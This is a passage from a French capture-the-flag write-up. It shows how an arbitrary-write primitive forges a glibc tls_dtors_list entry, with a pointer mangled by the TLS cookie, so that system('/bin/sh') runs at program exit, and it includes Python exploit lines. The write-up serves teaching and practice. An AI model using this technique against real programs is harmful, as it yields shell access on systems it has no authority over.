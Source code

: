 ![](images/Pasted%20image%2020250505000200.png)

Le pointeur de fonction est manglé en utilisant cette formule : 
```c
dtor_list->func = rol((system ^ PTR_MANGLE_COOKIE), 0x11, 64)
```

En réutilisant notre primitive, comme pour la lecture arbitraire, nous allons écrire notre fausse structure 8 octets par 8 octets en mémoire.

```python
# Writing to tls_dtors_list
aarb_write(tls_dtors_list_addr, p64(tls_dtors_list_addr + 64), 8)
# Writing mangled system() to dtor_list->func
aarb_write(tls_dtors_list_addr + 64, p64(rol((system ^ tls_cookie), 0x11, 64)), 8)
# Writing address of /bin/sh to dtor_list->obj
aarb_write(tls_dtors_list_addr + 72, p64(binsh), 8)
```

Avant d'obtenir un shell, il ne reste plus qu'à écrire une dernière fois notre structure `entry_t` pour mettre à 0 `pNext` et `pPrev`, permettant ainsi de ne pas faire crasher le programme lors de l'unlinking des maillons, et quitter le programme proprement pour exécuter notre shell !

## Flag

